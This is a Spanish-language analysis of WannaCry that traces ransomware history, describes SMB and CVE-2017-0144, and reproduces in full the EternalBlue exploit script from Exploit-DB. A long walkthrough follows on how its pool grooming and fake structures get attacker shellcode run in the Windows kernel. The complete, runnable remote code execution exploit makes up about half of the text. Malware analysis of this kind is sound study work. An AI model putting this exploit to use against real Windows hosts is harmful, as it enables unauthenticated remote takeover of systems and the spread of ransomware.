Documentación Análisis Técnico de Malware y Comportamiento de WannaCry
El ecosistema del hacking y el desarrollo de malware evoluciona constantemente; cada época define y populariza distintas metodologías para desplegar y rentabilizar código malicioso dentro de un sistema. En el caso de WannaCry, su aparición en 2017 no fue un evento aislado, sino la evolución culmen de conceptos que se venían gestando desde décadas atrás.
🧬 El Primer Hito: PC Cyborg Trojan / AIDS (1989)
Aunque el ransomware parece una amenaza moderna, sus cimientos teóricos y prácticos se remontan a 1989. El primer espécimen de la historia fue creado por el biólogo Joseph L. Popp y fue bautizado como PC Cyborg (también conocido popularmente como el troyano AIDS).
En aquella época, el modelo de negocio detrás de este ataque no resultaba altamente rentable debido a las severas limitaciones logísticas y técnicas de la era: * Distribución Física: Al no existir un internet global interconectado, el malware se distribuía físicamente mediante disquetes de 5¼ pulgadas enviados por correo postal tradicional a listas de distribución de conferencias médicas. * Criptografía Rudimentaria: Utilizaba un esquema de encriptación extremadamente básico (sustitución simétrica simple), lo que permitía a los analistas de seguridad de la época descifrar los archivos y generar herramientas de recuperación con relativa facilidad.
A pesar de sus limitaciones, PC Cyborg estableció de forma permanente las tres reglas de oro del ransomware que heredaría WannaCry: 1. Secuestrar y alterar el acceso a los archivos del sistema (cifrado). 2. Modificar la interfaz para mostrar una nota o pantalla de advertencia. 3. Exigir un pago financiero (en ese entonces mediante un giro postal a un apartado de correos en Panamá) a cambio de la clave de restauración.
⏳ La Era del Silencio y el Resurgimiento: CryptoLocker (2013)
Tras el incidente de 1989, el modelo de secuestro de datos permaneció en un segundo plano operativo durante más de dos décadas debido a la falta de un sistema de cobro anónimo y eficiente.
Esta dinámica cambió radicalmente en 2013 con la aparición de CryptoLocker. Esta variante marcó el inicio de la era moderna del ransomware al resolver los problemas del espécimen de 1989, logrando infectar a más de 250,000 ordenadores distribuidos en varios países. Lo más sorprendente de CryptoLocker es que no explotaba ninguna vulnerabilidad del sistema operativo; su éxito dependió enteramente de técnicas de ingeniería social mediante campañas de phishing dirigidas para forzar la descarga y ejecución manual del archivo binario malicioso.

El panorama tecnológico de 2013 presentaba avances determinantes que prepararon el camino para el posterior éxito de WannaCry: 1. Infraestructura Global y Exposición: Internet ya se encontraba masivamente desplegado a nivel mundial. Sin embargo, la falta de concienciación y cultura en ciberseguridad dejaba a usuarios corporativos y residenciales expuestos a vectores de manipulación. 2. Madurez Criptográfica (RSA): Se integraron sistemas de cifrado de alta complejidad. El algoritmo asimétrico RSA, diseñado bajo patente en 1983 pero estandarizado comercialmente hacia el año 2000, fue el núcleo que impidió la recuperación de datos sin la clave privada del atacante. 3. Surgimiento Financiero Criptográfico: La invención de las criptomonedas en 2009 proporcionó el eslabón perdido para el ransomware. Durante 2013, el ecosistema de Bitcoin vivió su primer gran auge comercial, ofreciendo a los atacantes un mecanismo de cobro descentralizado, transfronterizo y de muy difícil rastreo.
🛑 El Aviso de Vulnerabilidad Crítica antes de WannaCry (16 de Enero de 2017)
A inicios de 2017, apenas unos meses antes del estallido global de WannaCry, el Equipo de Preparación ante Emergencias Informáticas de EE. UU. (US-CERT, hoy bajo la órbita de CISA) emitió una alerta crítica de seguridad que registraría formalmente el identificador CVE-2017-0144. Esta entrada apuntaba a un fallo estructural severo dentro de la implementación del protocolo SMB (Server Message Block) de Microsoft, el cual se convertiría en el motor de propulsión de WannaCry.

🧐 Anatomía del Protocolo Objetivo: SMB
- Origen: Creado originalmente por IBM en 1983, fue adoptado y adaptado de forma nativa por Microsoft para los entornos de red en sistemas Windows.
- Función Operativa: SMB es un protocolo de la capa de aplicación encargado de compartir archivos, carpetas, colas de impresión y accesos a dispositivos de hardware dentro de una red local, permitiendo su lectura y modificación remota.
- Mecánica de Red: Opera bajo un modelo clásico cliente-servidor mediante el envío de solicitudes de recursos de red y respuestas de validación. De forma nativa, se mapea en redes modernas sobre el puerto 445 (TCP), conviviendo históricamente con los puertos 137 y 138 (UDP) mediante NetBIOS, así como en su contraparte de código abierto Samba.
El abuso de este protocolo no era nuevo en el panorama de amenazas. En 2014, la corporación Sony Pictures sufrió uno de los ataques dirigidos más devastadores de la historia, donde la manipulación y movimientos laterales a través de redes locales provocaron la destrucción de datos corporativos e infraestructura con pérdidas estimadas entre 100 y 175 millones de dólares.
📋 Especificación Técnica del Reporte CVE-2017-0144
La base de datos oficial del catálogo de vulnerabilidades (CVE Record) describe de la siguiente manera la falla que posteriormente explotaría el componente gusano de WannaCry:
"El servidor SMBv1 en Microsoft Windows Vista SP2; Windows Server 2008 SP2 y R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; Windows 10 Gold, 1511, y 1607; y Windows Server 2016 permite a atacantes remotos ejecutar código arbitrario a través de paquetes especialmente diseñados, también conocida como 'Vulnerabilidad de ejecución remota de código en Windows SMB'. Esta vulnerabilidad es diferente de las descritas en CVE-2017-0143, CVE-2017-0145, CVE-2017-0146, y CVE-2017-0148."
Asociado a esta divulgación, los repositorios de seguridad públicos liberaron recursos técnicos orientados a la verificación de la falla. Para fines de este proyecto de análisis de WannaCry, nos enfocaremos en el estudio y emulación del script de explotación alojado en Exploit-DB, diseñado específicamente para auditar la ejecución de código remota sobre arquitecturas Windows 7 y Windows Server 2008 R2 que sirvieron como víctimas principales del brote de 2017. Cabe aclarar que el script esta hecho en Python
#!/usr/bin/python
from impacket import smb
from struct import pack
import sys
import socket
NTFEA_SIZE = 0x11000
ntfea10000 = pack('<BBH', 0, 0, 0xffdd) + 'A'*0xffde
ntfea11000 = (pack('<BBH', 0, 0, 0) + '\x00')*600
ntfea11000 += pack('<BBH', 0, 0, 0xf3bd) + 'A'*0xf3be
ntfea1f000 = (pack('<BBH', 0, 0, 0) + '\x00')*0x2494
ntfea1f000 += pack('<BBH', 0, 0, 0x48ed) + 'A'*0x48ee
ntfea = { 0x10000 : ntfea10000, 0x11000 : ntfea11000 }
TARGET_HAL_HEAP_ADDR_x64 = 0xffffffffffd00010
TARGET_HAL_HEAP_ADDR_x86 = 0xffdff000
fakeSrvNetBufferNsa = pack('<II', 0x11000, 0)*2
fakeSrvNetBufferNsa += pack('<HHI', 0xffff, 0, 0)*2
fakeSrvNetBufferNsa += '\x00'*16
fakeSrvNetBufferNsa += pack('<IIII', TARGET_HAL_HEAP_ADDR_x86+0x100, 0, 0, TARGET_HAL_HEAP_ADDR_x86+0x20)
fakeSrvNetBufferNsa += pack('<IIHHI', TARGET_HAL_HEAP_ADDR_x86+0x100, 0, 0x60, 0x1004, 0)
fakeSrvNetBufferNsa += pack('<IIQ', TARGET_HAL_HEAP_ADDR_x86-0x80, 0, TARGET_HAL_HEAP_ADDR_x64)
fakeSrvNetBufferNsa += pack('<QQ', TARGET_HAL_HEAP_ADDR_x64+0x100, 0)
fakeSrvNetBufferNsa += pack('<QHHI', 0, 0x60, 0x1004, 0)
fakeSrvNetBufferNsa += pack('<QQ', 0, TARGET_HAL_HEAP_ADDR_x64-0x80)
fakeSrvNetBufferX64 = pack('<II', 0x11000, 0)*2
fakeSrvNetBufferX64 += pack('<HHIQ', 0xffff, 0, 0, 0)
fakeSrvNetBufferX64 += '\x00'*16
fakeSrvNetBufferX64 += '\x00'*16
fakeSrvNetBufferX64 += '\x00'*16
fakeSrvNetBufferX64 += pack('<IIQ', 0, 0, TARGET_HAL_HEAP_ADDR_x64)
fakeSrvNetBufferX64 += pack('<QQ', TARGET_HAL_HEAP_ADDR_x64+0x100, 0)
fakeSrvNetBufferX64 += pack('<QHHI', 0, 0x60, 0x1004, 0)
fakeSrvNetBufferX64 += pack('<QQ', 0, TARGET_HAL_HEAP_ADDR_x64-0x80)
fakeSrvNetBuffer = fakeSrvNetBufferNsa
feaList = pack('<I', 0x10000)
feaList += ntfea[NTFEA_SIZE]
feaList += pack('<BBH', 0, 0, len(fakeSrvNetBuffer)-1) + fakeSrvNetBuffer
feaList += pack('<BBH', 0x12, 0x34, 0x5678)
fake_recv_struct = pack('<QII', 0, 3, 0)
fake_recv_struct += '\x00'*16
fake_recv_struct += pack('<QII', 0, 3, 0)
fake_recv_struct += ('\x00'*16)*7
fake_recv_struct += pack('<QQ', TARGET_HAL_HEAP_ADDR_x64+0xa0, TARGET_HAL_HEAP_ADDR_x64+0xa0)
fake_recv_struct += '\x00'*16
fake_recv_struct += pack('<IIQ', TARGET_HAL_HEAP_ADDR_x86+0xc0, TARGET_HAL_HEAP_ADDR_x86+0xc0, 0)
fake_recv_struct += ('\x00'*16)*11
fake_recv_struct += pack('<QII', 0, 0, TARGET_HAL_HEAP_ADDR_x86+0x190)
fake_recv_struct += pack('<IIQ', 0, TARGET_HAL_HEAP_ADDR_x86+0x1f0-1, 0)
fake_recv_struct += ('\x00'*16)*3
fake_recv_struct += pack('<QQ', 0, TARGET_HAL_HEAP_ADDR_x64+0x1e0)
fake_recv_struct += pack('<QQ', 0, TARGET_HAL_HEAP_ADDR_x64+0x1f0-1)
def getNTStatus(self):
return (self['ErrorCode'] << 16) | (self['_reserved'] << 8) | self['ErrorClass']
setattr(smb.NewSMBPacket, "getNTStatus", getNTStatus)
def sendEcho(conn, tid, data):
pkt = smb.NewSMBPacket()
pkt['Tid'] = tid
transCommand = smb.SMBCommand(smb.SMB.SMB_COM_ECHO)
transCommand['Parameters'] = smb.SMBEcho_Parameters()
transCommand['Data'] = smb.SMBEcho_Data()
transCommand['Parameters']['EchoCount'] = 1
transCommand['Data']['Data'] = data
pkt.addCommand(transCommand)
conn.sendSMB(pkt)
recvPkt = conn.recvSMB()
if recvPkt.getNTStatus() == 0:
print('got good ECHO response')
else:
print('got bad ECHO response: 0x{:x}'.format(recvPkt.getNTStatus()))
def createSessionAllocNonPaged(target, size):
conn = smb.SMB(target, target)
_, flags2 = conn.get_flags()
flags2 &= ~smb.SMB.FLAGS2_EXTENDED_SECURITY
if size >= 0xffff:
flags2 &= ~smb.SMB.FLAGS2_UNICODE
reqSize = size // 2
else:
flags2 |= smb.SMB.FLAGS2_UNICODE
reqSize = size
conn.set_flags(flags2=flags2)
pkt = smb.NewSMBPacket()
sessionSetup = smb.SMBCommand(smb.SMB.SMB_COM_SESSION_SETUP_ANDX)
sessionSetup['Parameters'] = smb.SMBSessionSetupAndX_Extended_Parameters()
sessionSetup['Parameters']['MaxBufferSize'] = 61440
sessionSetup['Parameters']['MaxMpxCount'] = 2
sessionSetup['Parameters']['VcNumber'] = 2
sessionSetup['Parameters']['SessionKey'] = 0
sessionSetup['Parameters']['SecurityBlobLength'] = 0
sessionSetup['Parameters']['Capabilities'] = smb.SMB.CAP_EXTENDED_SECURITY
sessionSetup['Data'] = pack('<H', reqSize) + '\x00'*20
pkt.addCommand(sessionSetup)
conn.sendSMB(pkt)
recvPkt = conn.recvSMB()
if recvPkt.getNTStatus() == 0:
print('SMB1 session setup allocate nonpaged pool success')
else:
print('SMB1 session setup allocate nonpaged pool failed')
return conn
class SMBTransaction2Secondary_Parameters_Fixed(smb.SMBCommand_Parameters):
structure = (
('TotalParameterCount','<H=0'),
('TotalDataCount','<H'),
('ParameterCount','<H=0'),
('ParameterOffset','<H=0'),
('ParameterDisplacement','<H=0'),
('DataCount','<H'),
('DataOffset','<H'),
('DataDisplacement','<H=0'),
('FID','<H=0'),
)
def send_trans2_second(conn, tid, data, displacement):
pkt = smb.NewSMBPacket()
pkt['Tid'] = tid
transCommand = smb.SMBCommand(smb.SMB.SMB_COM_TRANSACTION2_SECONDARY)
transCommand['Parameters'] = SMBTransaction2Secondary_Parameters_Fixed()
transCommand['Data'] = smb.SMBTransaction2Secondary_Data()
transCommand['Parameters']['TotalParameterCount'] = 0
transCommand['Parameters']['TotalDataCount'] = len(data)
fixedOffset = 32+3+18
transCommand['Data']['Pad1'] = ''
transCommand['Parameters']['ParameterCount'] = 0
transCommand['Parameters']['ParameterOffset'] = 0
if len(data) > 0:
pad2Len = (4 - fixedOffset % 4) % 4
transCommand['Data']['Pad2'] = '\xFF' * pad2Len
else:
transCommand['Data']['Pad2'] = ''
pad2Len = 0
transCommand['Parameters']['DataCount'] = len(data)
transCommand['Parameters']['DataOffset'] = fixedOffset + pad2Len
transCommand['Parameters']['DataDisplacement'] = displacement
transCommand['Data']['Trans_Parameters'] = ''
transCommand['Data']['Trans_Data'] = data
pkt.addCommand(transCommand)
conn.sendSMB(pkt)
def send_big_trans2(conn, tid, setup, data, param, firstDataFragmentSize, sendLastChunk=True):
pkt = smb.NewSMBPacket()
pkt['Tid'] = tid
command = pack('<H', setup)
transCommand = smb.SMBCommand(smb.SMB.SMB_COM_NT_TRANSACT)
transCommand['Parameters'] = smb.SMBNTTransaction_Parameters()
transCommand['Parameters']['MaxSetupCount'] = 1
transCommand['Parameters']['MaxParameterCount'] = len(param)
transCommand['Parameters']['MaxDataCount'] = 0
transCommand['Data'] = smb.SMBTransaction2_Data()
transCommand['Parameters']['Setup'] = command
transCommand['Parameters']['TotalParameterCount'] = len(param)
transCommand['Parameters']['TotalDataCount'] = len(data)
fixedOffset = 32+3+38 + len(command)
if len(param) > 0:
padLen = (4 - fixedOffset % 4 ) % 4
padBytes = '\xFF' * padLen
transCommand['Data']['Pad1'] = padBytes
else:
transCommand['Data']['Pad1'] = ''
padLen = 0
transCommand['Parameters']['ParameterCount'] = len(param)
transCommand['Parameters']['ParameterOffset'] = fixedOffset + padLen
if len(data) > 0:
pad2Len = (4 - (fixedOffset + padLen + len(param)) % 4) % 4
transCommand['Data']['Pad2'] = '\xFF' * pad2Len
else:
transCommand['Data']['Pad2'] = ''
pad2Len = 0
transCommand['Parameters']['DataCount'] = firstDataFragmentSize
transCommand['Parameters']['DataOffset'] = transCommand['Parameters']['ParameterOffset'] + len(param) + pad2Len
transCommand['Data']['Trans_Parameters'] = param
transCommand['Data']['Trans_Data'] = data[:firstDataFragmentSize]
pkt.addCommand(transCommand)
conn.sendSMB(pkt)
conn.recvSMB()
i = firstDataFragmentSize
while i < len(data):
sendSize = min(4096, len(data) - i)
if len(data) - i <= 4096:
if not sendLastChunk:
break
send_trans2_second(conn, tid, data[i:i+sendSize], i)
i += sendSize
if sendLastChunk:
conn.recvSMB()
return i
def createConnectionWithBigSMBFirst80(target):
sk = socket.create_connection((target, 445))
pkt = '\x00' + '\x00' + pack('>H', 0xfff7)
pkt += 'BAAD'
pkt += '\x00'*0x7c
sk.send(pkt)
return sk
def exploit(target, shellcode, numGroomConn):
conn = smb.SMB(target, target)
conn.login_standard('', '')
server_os = conn.get_server_os()
print('Target OS: '+server_os)
if not (server_os.startswith("Windows 7 ") or (server_os.startswith("Windows Server ") and ' 2008 ' in server_os) or server_os.startswith("Windows Vista")):
print('This exploit does not support this target')
sys.exit()
tid = conn.tree_connect_andx('\\\\'+target+'\\'+'IPC$')
progress = send_big_trans2(conn, tid, 0, feaList, '\x00'*30, 2000, False)
allocConn = createSessionAllocNonPaged(target, NTFEA_SIZE - 0x1010)
srvnetConn = []
for i in range(numGroomConn):
sk = createConnectionWithBigSMBFirst80(target)
srvnetConn.append(sk)
holeConn = createSessionAllocNonPaged(target, NTFEA_SIZE - 0x10)
allocConn.get_socket().close()
for i in range(5):
sk = createConnectionWithBigSMBFirst80(target)
srvnetConn.append(sk)
holeConn.get_socket().close()
send_trans2_second(conn, tid, feaList[progress:], progress)
recvPkt = conn.recvSMB()
retStatus = recvPkt.getNTStatus()
if retStatus == 0xc000000d:
print('good response status: INVALID_PARAMETER')
else:
print('bad response status: 0x{:08x}'.format(retStatus))
for sk in srvnetConn:
sk.send(fake_recv_struct + shellcode)
for sk in srvnetConn:
sk.close()
conn.disconnect_tree(tid)
conn.logoff()
conn.get_socket().close()
if len(sys.argv) < 3:
print("{} <ip> <shellcode_file> [numGroomConn]".format(sys.argv[0]))
sys.exit(1)
TARGET=sys.argv[1]
numGroomConn = 13 if len(sys.argv) < 4 else int(sys.argv[3])
fp = open(sys.argv[2], 'rb')
sc = fp.read()
fp.close()
print('shellcode size: {:d}'.format(len(sc)))
print('numGroomConn: {:d}'.format(numGroomConn))
exploit(TARGET, sc, numGroomConn)
print('done')
🛠️ Análisis Técnico del Exploit CVE-2017-0144
Para entender cómo WannaCry logra la ejecución remota de código (RCE) con privilegios de SYSTEM sin interacción del usuario, es imperativo diseccionar el script de explotación de EternalBlue (alojado en Exploit-DB). A continuación, se descompone la lógica de sus componentes, la manipulación de la memoria del kernel y la orquestación del ataque.
📦 1. Importación de Módulos y Dependencias
El script comienza importando las librerías necesarias para la manipulación de red a bajo nivel y la estructuración binaria de los paquetes:
from impacket import smb: Módulo crítico encargado de la construcción, parsing y envío de estructuras válidas del protocolo SMB (Server Message Block).from struct import pack: Función fundamental para serializar y convertir tipos de datos de Python en cadenas de bytes binarias legibles por la arquitectura del procesador (utilizando formato Little-Endian<).import sys: Permite la interacción con el intérprete y la captura de argumentos desde la línea de comandos (como la IP del objetivo).import socket: Utilizado para inicializar y gestionar conexiones TCP puras directamente orientadas al puerto 445.
🕳️ 2. El Desbordamiento de Búfer: Estructuración del Payload FEA
El exploit define un tamaño de búfer específico: $NTFEA_SIZE = 0x11000$ (69,632 bytes). La vulnerabilidad se detona porque el pool de memoria del kernel espera una longitud acotada, pero la confusión de tipos le obliga a recibir una estructura mucho más grande, provocando una escritura fuera de los límites asignados (Heap Buffer Overflow).
El payload de desbordamiento se construye de la siguiente manera:
# 1. Creación de estructuras base vacías
ntfea11000 = (pack('<BBH', 0, 0, 0) + '\x00') * 600
⚙️ Mecánica: Genera un bloque repetitivo de 600 estructuras FEA (Full Extended Attribute) vacías. Cada una de ellas ocupa exactamente 4 bytes en memoria, sumando un total inicial de 2,400 bytes ($0x960$).
# 2. Inyección del tamaño malformado para el desbordamiento
ntfea11000 += pack('<BBH', 0, 0, 0xf3bd) + 'A' * 0xf3be
⚙️ Mecánica: Se concatena una estructura FEA final declarando un tamaño ficticio de $0xf3bd$ (62,461 bytes) y se rellena inmediatamente con un padding masivo de caracteres
'A' * 0xf3be(62,462 bytes).Al configurar ambas operaciones ($2400 + 62462 = 64862 \text{ bytes}$), se moldea un paquete diseñado matemáticamente para saturar los límites internos del búfer del driver
srv.sysy desbordar la memoria adyacente del kernel.
🎭 3. Estructuras Falsas (Fake Structs) e Inyección en el HAL
Una vez provocado el desbordamiento, el exploit no busca crashear el sistema, sino sobrescribir punteros de memoria legítimos por estructuras falsas (Fake Structs) que apunten a la capa de abstracción de hardware (HAL), una región de memoria con direcciones estáticas y predecibles en sistemas Windows que no implementaban de forma estricta mitigaciones de seguridad como KASLR en versiones antiguas.
# Direcciones estáticas del HAL (Hardware Abstraction Layer)
TARGET_HAL_HEAP_ADDR_x64 = 0xffffffffffd00010 # Dirección HAL en x64
TARGET_HAL_HEAP_ADDR_x86 = 0xffdff000 # Dirección HAL en x86
A. Moldeando un SRVNET_BUFFER Falso
El exploit crea una réplica maliciosa de la estructura que el driver de red utiliza para gestionar los datos entrantes:
fakeSrvNetBufferNsa = pack('<II', 0x11000, 0) * 2
fakeSrvNetBufferNsa += pack('<HHI', 0xffff, 0, 0) * 2 # 0xffff activa la bandera de liberación (Free Flag)
fakeSrvNetBufferNsa += pack('<IIQ', TARGET_HAL_HEAP_ADDR_x86-0x80, 0, TARGET_HAL_HEAP_ADDR_x64)
-
0xffff: Actúa como una bandera (Free Flag) que le indica fraudulentamente al kernel que este búfer ya debe ser liberado de la memoria. -
MappedSystemVa: Se sobrescribe para que apunte a la zona de escritura del HAL (HAL - 0x80). -
pSrvNetWskStruct: Puntero redirigido hacia la estructura falsa en arquitecturas de 64 bits.
B. Estructura de Recepción Falsa (fake_recv_struct)
Este bloque manipula los punteros de ejecución de funciones del sistema:
fake_recv_struct = pack('<QII', 0, 3, 0) # El valor '3' fuerza el procesamiento inmediato por el kernel
fake_recv_struct += pack('<QQ', TARGET_HAL_HEAP_ADDR_x64+0x1e0) # Puntero a tabla de funciones en HAL
fake_recv_struct += pack('<QQ', 0, TARGET_HAL_HEAP_ADDR_x64+0x1f0-1) # Puntero al shellcode (menos 1 byte)
💥 Impacto: El valor 3 obliga al kernel a procesar la estructura de manera prioritaria. Al hacerlo, el sistema consulta el puntero modificado que apunta a la dirección del shellcode (restando 1 byte debido a que el kernel incrementa la dirección en una unidad antes de saltar a ella). Cuando el hilo del kernel ejecuta la llamada, procesa el shellcode del atacante con privilegios de Ring 0.
🧪 4. Confusión de Memoria en el NonPaged Pool
Para lograr colocar estas estructuras en el lugar exacto de la memoria, el exploit implementa dos técnicas avanzadas de manipulación de bajo nivel:
A. Reserva del Búfer mediante Confusión de Flags
def createSessionAllocNonPaged(target, size):
flags2 &= ~smb.SMB.FLAGS2_EXTENDED_SECURITY
sessionSetup['Data'] = pack('<H', reqSize) + '\x00'*20
🐞 El Bug: Al desactivar de manera forzada la bandera
FLAGS2_EXTENDED_SECURITY, el exploit confunde al parser del driver de Windows. El kernel interpretareqSizecomo la longitud asignada a las cadenas de textoNativeOSyNativeLanMan, pero debido a la desalineación provocada por la falta de seguridad extendida, reserva un búfer de tamañoreqSizedirectamente en el NonPaged Pool (la zona de memoria del kernel que nunca se descarga al disco duro).
B. Confusión de Transacciones SMB
def send_big_trans2(conn, tid, setup, data, param, firstDataFragmentSize, sendLastChunk=True):
transCommand = smb.SMBCommand(smb.SMB.SMB_COM_NT_TRANSACT)
# ... fragmentación ...
send_trans2_second(conn, tid, data[i:i+sendSize], i)
🔀 Mecánica: El exploit mezcla comandos de diferentes naturalezas. Primero inicializa la petición usando
NT_TRANSACT, un comando diseñado para transferir volúmenes de datos superiores a 65,535 bytes. Sin embargo, para enviar los fragmentos posteriores y el cierre del paquete, conmuta al uso deTRANSACTION2_SECONDARY. Debido a que el driver de Windows no valida de forma estricta que todos los subpaquetes mantengan el mismo tipo de comando original, se guía por las instrucciones del último fragmento recibido, rompiendo la coherencia lógica de la transacción en el backend.
🪐 5. La Orquestación: Grooming del NonPaged Pool
La función principal exploit(target, shellcode, numGroomConn) se encarga de alinear la memoria del servidor de manera perfecta para asegurar que el desbordamiento sobrescriba los datos deseados y no cause una pantalla azul (BSOD):
# 1. Autenticación e inicialización del canal común
conn = smb.SMB(target, target)
conn.login_standard('', '') # Conexión anónima (Null Session)
tid = conn.tree_connect_andx('\\\\'+target+'\\'+'IPC$') # Conexión al recurso compartido IPC$
El Proceso del "Grooming" de Memoria:
-
Envío Fragmentado: Se invoca
send_big_trans2para transmitir el primer fragmento de la lista FEA (2,000 bytes), pero intencionalmente no se envía el último fragmento. El kernel de Windows congela la operación, reserva el búfer y se queda en estado de espera. -
Alineación de Memoria (Moldeado): Se crean múltiples conexiones consecutivas (
srvnetConn) que asignan búfers grandes de tipoSRVNETen la memoria del kernel. -
Creación del Hueco (The Hole): Se invoca
createSessionAllocNonPaged(target, NTFEA_SIZE - 0x10)para reservar un búfer del mismo tamaño que la lista FEA final, rodeado inmediatamente por los búfersSRVNETpreviamente creados. -
Liberación Estratégica: Se cierran las conexiones temporales (
allocConn.close()yholeConn.close()). Esto libera exactamente el espacio del "hueco", dejando una vacante en la memoria rodeada de búfers del driver de red activos. -
Detonación del Desbordamiento: Se envía el fragmento final faltante mediante
send_trans2_second. El kernel asigna la lista FEA entrante en el "hueco" recién liberado. Al procesarse, el payload se desborda horizontalmente, sobrescribiendo el búferSRVNETque se encuentra inmediatamente al lado.
# 6. Ejecución del Shellcode
for sk in srvnetConn:
sk.send(fake_recv_struct + shellcode)
for sk in srvnetConn:
sk.close()
Al enviar la estructura de recepción falsa junto con el shellcode y posteriormente cerrar en masa todas las conexiones, se fuerza al sistema operativo a realizar la limpieza de los búfers corruptos. El kernel ejecuta la tabla de funciones alterada, redirigiendo el flujo del procesador directamente hacia nuestro payload malicioso en memoria con privilegios de SYSTEM.
📊 FLUJO RESUMIDO
- Conexión SMB a target:445
- Login anónimo
- Conectar a IPC$
- Enviar primer fragmento FEA (sin terminar) → El kernel reserva un buffer en NonPaged Pool
- Crear "huecos" en la memoria: ├── allocateConn (buffer grande) ├── 13 buffers SRVNET (conexiones) └── holeConn (buffer "hueco")
- Liberar allocateConn y holeConn → El buffer FEA se asigna en holeConn
- Enviar último fragmento FEA → Buffer FEA se desborda → Sobrescribe buffer SRVNET adyacente
- Enviar fake_recv_struct + shellcode
- Cerrar conexiones SRVNET → Kernel procesa buffer corrompido → Sigue puntero a fake_recv_struct → Ejecuta shellcode en kernel (ring 0)
- ¡Sistema comprometido!
🧬 La Primera Versión Primitiva de WannaCry (WannaCry 1.0)
El 10 de febrero de 2017 la investigadora de malware conocida bajo el alias de Siri (@malware_siri) localizó y aisló una de las piezas arqueológicas más importantes en la evolución del ransomware moderno: la muestra primigenia de WannaCry (frecuentemente catalogada en repositorios como WannaCry 1.0 o WanaCrypt0r primitiva).
El hash MD5 que identifica unívocamente este binario es:
9c7c7149387a1c79679a87dd1ba755bc


🔬 Características Clínicas del Espécimen Primitivo
A diferencia de la devastadora campaña global que se desataría en mayo de 2017, el análisis estático y dinámico de este binario primitivo reveló detalles que exponen su naturaleza puramente experimental o de campaña de bajo alcance:
- Ausencia de Propagación Autónoma (Sin Gusano): Esta variante no contenía el componente de red que implementaba el exploit EternalBlue. Carecía de la capacidad de escanear el puerto 445 (TCP) y auto-replicarse de forma masiva a través del protocolo SMB. Su vector de infección dependía en su totalidad de métodos de distribución tradicionales (como campañas de spam muy acotadas).
- Mismo Motor Criptográfico, Distinta Fachada: El binario ya implementaba la arquitectura de cifrado híbrido usando APIs de Windows para generar llaves simétricas AES de 128 bits que luego eran protegidas con un par de llaves asimétricas RSA. Sin embargo, los textos informativos, el diseño visual de la interfaz y las direcciones de billeteras Bitcoin eran diferentes a la versión que paralizó los sistemas hospitalarios globales meses después.
